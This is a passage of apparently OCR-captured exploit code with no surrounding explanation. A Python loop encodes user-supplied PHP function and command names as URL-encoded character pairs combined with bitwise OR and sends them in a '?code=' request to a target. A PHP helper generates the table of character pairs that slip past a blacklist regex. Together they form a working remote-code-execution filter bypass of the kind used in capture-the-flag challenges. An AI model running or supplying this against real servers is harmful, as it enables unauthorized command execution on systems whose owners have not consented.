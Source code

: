 ```python
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
    param=action(input("\n[+] your function：") )+action(input("[+] your command："))
    data='?code='+urllib.parse.unquote(param)+';'
    r=requests.get(url=url+data)
    print("\n[*] result:\n"+r.text)
    print(data)
    print(param)
```

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
